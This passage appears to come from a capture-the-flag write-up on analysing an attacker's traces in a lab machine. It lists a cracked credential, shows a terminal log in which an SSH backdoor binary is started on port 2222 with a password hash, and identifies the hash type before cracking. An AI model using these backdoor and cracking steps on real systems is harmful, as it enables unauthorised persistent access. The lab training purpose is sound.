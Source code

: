 ```
muirland: 1qaz2wsx

```

haha only james password in not in `fasttrack.txt`...we can stop blaming it on james all the time

## Research

Ok next we go analyze `ssh-backdoor` on github

Just read and understand the stuff

You can find the hash used by the attacker in the same tcp steam as before

ok I am a nice person so here you go
```
james@overpass-production:~/ssh-backdoor$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/james/.ssh/id_rsa): id_rsa
id_rsa
Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58 james@overpass-production
The key's randomart image is:
+---[RSA 2048]----+
|        .. .     |
|       .  +      |
|      o   .=.    |
|     . o  o+.    |
|      + S +.     |
|     =.o %.      |
|    ..*.% =.     |
|    .+.X+*.+     |
|   .oo=++=Eo.    |
+----[SHA256]-----+
james@overpass-production:~/ssh-backdoor$ chmod +x backdoor
chmod +x backdoor
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

<9d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
SSH - 2020/07/21 20:36:56 Started SSH backdoor on 0.0.0.0:2222
```

Crackng time again

```
└──╼ $haiti 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
SHA-512 [HC: 1700] [JtR: raw-sha512]
SHA3-512 [HC: 17600] [JtR: raw-sha3]
SHA3-512 [HC: 17600] [JtR: dynamic_400]
Keccak-512 [HC: 18000] [JtR: raw-keccak]
BLAKE2-512 [JtR: raw-blake2]
Whirlpool [HC: 6100] [JtR: whirlpool]
Salsa10
Salsa20
Skein-512 [JtR: skein-512]
Skein-1024(512)
MD6-512
```